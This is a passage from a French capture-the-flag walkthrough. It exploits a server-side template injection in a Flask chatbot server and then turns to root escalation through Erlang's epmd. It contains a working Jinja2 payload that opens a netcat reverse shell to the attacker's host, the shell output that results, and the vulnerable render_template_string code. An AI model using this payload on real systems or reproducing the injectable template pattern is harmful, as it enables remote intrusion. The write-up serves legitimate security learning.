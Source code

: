 ```
	"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.14.97.127 4444 >/tmp/f').read() }}"
}
```
Et nous voila avec un shell sur le serveur:
```     
listening on [any] 4444 ...
connect to [10.14.97.127] from (UNKNOWN) [10.10.119.93] 46130
bash: cannot set terminal process group (605): Inappropriate ioctl for device
bash: no job control in this shell
azrael@forge:~/chatbotServer$
```
On vois un script python.py :
```python
from flask import Flask, request, jsonify, render_template_string

app = Flask(__name__)

@app.route('/', methods=['POST'])
def index():
    data = request.get_json()
    if not data or 'username' not in data:
        return jsonify({"error": "username parameter is required"}), 400
    
    username = data['username']
    template = '''<!DOCTYPE html>
<html lang="en">
 <head>
   <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>Greeting</title>
 </head>
 <body>
   <h1>Sorry, {}, our chatbot server is currently under development.</h1>
 </body>
</html>'''.format(username)
    
    return render_template_string(template)

if __name__ == '__main__':
    app.run(debug=True, port=8000)
```
La SSTI ce trouve ici :
```
</html>'''.format(username)
```
La variable **username** est inséré dans le template HTML, nous pouvons donc injecter du code dans cette variable. Donc quand j'injecte **{{7*7}}** il l'execute et répond **49**.

# Privesc to Root :)
J'ai un peu tout check, puis je me suis rappeler du résultat de nmap
```
4369/tcp  open  epmd    Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 25672
25672/tcp open  unknown
```
Il y a un module dans metasploit pour avoir une RCE avec Erlang.
```
exploit/multi/misc/erlang_cookie_rce
```
Il faut le cookie pour l'exploiter, on va essayer de retrouver cela. 